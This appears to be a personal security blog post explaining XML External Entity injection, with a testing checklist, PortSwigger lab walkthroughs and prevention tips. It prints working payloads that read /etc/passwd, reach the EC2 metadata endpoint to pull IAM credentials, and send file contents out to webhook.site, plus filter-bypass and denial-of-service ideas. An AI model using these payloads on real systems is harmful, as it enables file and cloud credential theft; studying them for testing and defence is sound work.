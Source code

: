 ```yaml
---
layout: post
title: XXE (XML External Entities) Injection
subtitle: How malicious user can abouse External Entities to perform XXE
date: 2025-07-30 12:43
author: Ren Sie
comments: true
category: injection
---
```

The method isn’t as popular as others because of the patches. But if comes across with application that access and passing XML, worth trying!

{: .box-note}
**Note:** 💡 Try pass XML data to API endpoint. They sometimes accept XML data besides JSON data.

### XML
Some Apps use XML to transfer data. XML has its default entities, which define the way of representing data or special characters. For instance: 
- `&amp;` → `&`
- `&lt;` → `<`
- `&gt;` → `>`

#### **External Entities**
By default, XML has predefined entities to represent special symbols (like `&lt;` for `<`), but **XML External Entities (XXE)** allow users to define **custom entities**. These custom entities can reference **external resources**, such as _local files_ or _external URLs_. This flexibility can be exploited to read sensitive files on the server, or run RCE.  
They can be defined using the `<!ENTITY>` syntax in XML like this:
~~~
xml:
<!ENTITY entity_name SYSTEM "path_to_file_or_url">
~~~
An example of malicious XML can be:
The entity `xxe` in the `creds` document reference the `/etc/passwd`. When the file path (external URL) is passed, it will be places at `&xxe;`.
~~~
xml:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
~~~

### Checklist
<details markdown="1">
  <summary>Click me to expand checklist</summary>  

  #### Objective  
  1. **Identify endpoints that can process XML**  
      * Send test requests with XML payloads and set Content-Type to `application/xml` or `text/xml`.  
      * Inspect response content: `Content-Type: application/xml` or `Content-Type: text/xml` as accepted request headers.  

  2. **Create a working XML payload that can be adapted to deliver exploits**  
      * First create a valid XML structure that the application accepts  
      * Then modify it with malicious content tailored to target the application's XML processing logic  

  3. **Test identified endpoints for XXE**  

  #### Attack surface discovery  
  1. **Identify endpoints that accept XML payloads**  
      * Review requests in proxy for XML data (e.g., Burp Suite)  
      * Identify endpoints that accept JSON by sending XML  
      * Identify endpoints that accept images by sending SVG images  
      * Identify endpoints that accept documents by sending DOCX or PDF files  

  2. **Test with the header Content-Type: application/xml**  
  3. **Verify working XML payloads that can be adapted to deliver exploits**  
      * Confirm the endpoint accepts and processes XML  
      * Inject harmless modifications to observe behavior changes  

  4. **Locate internal DTDs**  
      * <!DOCTYPE ...> that contains `[internal subset]`, `[internal declaring elements]`, `[internal declaring entities]`, or `[attribute rules]`  
  
#### Testing

1. **Test for external entities with a simple non-malicious payload**
   - <!ENTITY harmless SYSTEM "http://example.com/">
   - If the server processes external entities, it will fetch the contents from example.com

2. **Test for external entities with an available file**
   - <!ENTITY password SYSTEM "file:///etc/passwd">

3. **Test for external entities with an available endpoint we control**
   - [Webhook](https://webhook.site/)

4. **Test for external entities with other available endpoints**
   - <!ENTITY ext SYSTEM "http://internal-api.local/admin">

5. **EC2 metadata endpoint http[://]169.254.169.254/latest/meta-data**
   - [Access instance metadata for an EC2 instance](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)  

6. **Test filters and restrictions**
   - Send common disallowed characters or keywords (e.g., `<`, `<!DOCTYPE>`, `$`, `SYSTEM`, `ENTITY`)
   - Bypass filters using encoding or obfuscation (e.g., URL encoding, Unicode encoding, base64 encoding, null byte insertion, or alternate whitespace characters)
   - Trigger error messages to exfiltrate information (e.g., `<!DOCT`)
   - Nested Parameter Entities with External Payload (e.g., <!ENTITY external_dtd SYSTEM "http://example.com/payload.dtd">)
   - Splitting Payload Across Multiple Parameters

7. **Test for denial of service**
   - [Billion laughs](https://en.wikipedia.org/wiki/Billion_laughs_attack)

8. **Test for code execution
   - Tag Injection
  
#### Impact

1. **Can we read sensitive files?**
   - Configuration files (e.g., `/etc/passwd`)
   - System files (e.g., `/etc/shadow`)
   - SQLite files
   - SSH keys (e.g., `~/.ssh/id_rsa`)

2. **Can we exfiltrate sensitive information?**
   ```xml
   <?xml version="1.0" encoding="UTF-8"?>  
   <!DOCTYPE foo [  
     <!ENTITY xxe SYSTEM "file:///etc/passwd">  
     <!ENTITY % remote SYSTEM "https://webhook.site/?data=%xxe;">  
     %remote;
   ]>
   <foo>&xxe;</foo>
   ```

3. **Can we achieve code execution?**  
  
</details>

### Labs
Just for demostration, I completed a few labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#xml-external-entity-xxe-injection) to show how this vulnerability can lead to:
#### 1. Exploiting XXE using external entities to retrieve files  
I captured and modified `POST /product/stock` with Burp Repeater. Adding the `!DOCTYPE element` that defines an external entity containing the path to the file `etc/passwd`.
   ~~~
   <?xml version="1.0" encoding="UTF-8"?>  
   <!DOCTYPE test [  
   <!ENTITY xxe SYSTEM "file:///etc/passwd">  
   ]>  
   <stockCheck><productId>&xxe;</productId><storeId>2</storeId></stockCheck>  
   ~~~
   > Response:  
   > "Invalid product ID: root:x:0:0:root:/root:/bin/bash  
   > daemon:x:1:1 : daemon :/usr/sbin:/usr/sbin/nologin  
   > bin:x: 2:2 :bin:/bin:/usr/sbin/nologin  
   > sys:x: 3:3 : sys : /dev:/usr/sbin/nologin  
   > sync:x: 4:65534 : sync:/bin:/bin/sync  
   > www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  
   > backup:x: 34:34 :backup:/var/backups:/usr/sbin/nologin  
   > apt:x:100:65534 :: /nonexistent:/usr/sbin/nologin  
   > peter:x:2001:2001 :: /home/peter:/bin/bash  
   > dnsmasq:x:101:65534 :dnsmasq, ,,:/var/lib/misc:/usr/sbin/nologin  
   > messagebus:x:102:101 :: /nonexistent:/usr/sbin/nologin
   
#### 2. Exploiting XXE to perform SSRF attacks  
I captured and modified `POST /product/stock` with Burp Repeater. Adding the `!DOCTYPE element` that defines an external entity `test` to access EC2 instance metadata. More details about what _EC2 instance metadata_ is, visit [Access instance metadata for an EC2 instance](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)
   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data">  
   ]>  
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>  
   ~~~
   > Response: It tells us there's an "iam" entity inside  
   > "Invalid Product ID:  
   > iam"
   
   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam">  
   ]>
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>
   ~~~
   > Response: It tells us there's an "security-credentials" entity inside  
   > "Invalid Product ID:  
   > security-credentials"

   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">  
   ]>  
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>  
   ~~~
   > Response: It tells us there's an "admin" entity inside  
   > "Invalid Product ID:  
   > admin"  
   
   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">  
   ]>  
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>  
   ~~~
   > Response: We retrieves admin's access key
   > "Code":"Success",  
   > "LastUpdated":"2021-11-15T11:29:31.956206Z",  
   > "Type":"AWS-HMAC",  
   > "AccessKeyId":"BordnBx2QrCdt7VGVWT3",  
   > "SecretAccessKey":"yBZJPYWjn4XFnBLk3fqe305Fqdc7YT3SUs4vomxF",  
   > "Token":"kMW7yE0Z00lCE8zoDhS1rjX0vRBQG0EepbmRtzxmyzW0g8QtJ4j",  
   > "Expiration":"2027-11-14T11:29:31.956206Z"  

{: .box-note}
**Note:** 💡SSRF exploits a server's request-making functionality, allowing user to make a crafted request that pivots from the public-facing application and uses the server's trusted internal network position to scan, access, and exfiltrate data from otherwise unreachable backend services and cloud metadata endpoints.

#### 3. Exploiting XInclude to retrieve files  
   I identified the server-side xml parser by studying `GET /product?productId=3` on Burp Proxy. Insert the `Xinclude namespace` and the filepath to `POST /product/stock` on Repeater.
   ~~~
   productId=<test  
   xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/>  
   </test>&storeId=2
   ~~~
   > Response:  
   > "Invalid product ID: root:x:0:0:root:/root:/bin/bash  
   > daemon:x:1:1 : daemon :/usr/sbin:/usr/sbin/nologin  
   > bin:x: 2:2 :bin:/bin:/usr/sbin/nologin  
   > sys:x: 3:3 : sys : /dev:/usr/sbin/nologin  
   > sync:x: 4:65534 : sync:/bin:/bin/sync  
   > www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  
   > backup:x: 34:34 :backup:/var/backups:/usr/sbin/nologin  
   > apt:x:100:65534 :: /nonexistent:/usr/sbin/nologin  
   > peter:x:2001:2001 :: /home/peter:/bin/bash  
   > dnsmasq:x:101:65534 :dnsmasq, ,,:/var/lib/misc:/usr/sbin/nologin  
   > messagebus:x:102:101 :: /nonexistent:/usr/sbin/nologin

{: .box-note}
**Note:** 💡XInclude is used to bypass DTD-based Mitigation in this instance, If the application is blocking <!DOCTYPE>, an XInclude might still succeed.

### Prevention
1. Disable XML external entity
2. Use JSON instead of XML
3. Validate and Sanitize XML Input (with XSD)
4. Restrict Network/File Access (OS or Container Level)

### Also Read
[WSTG - Testing for XML Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection)
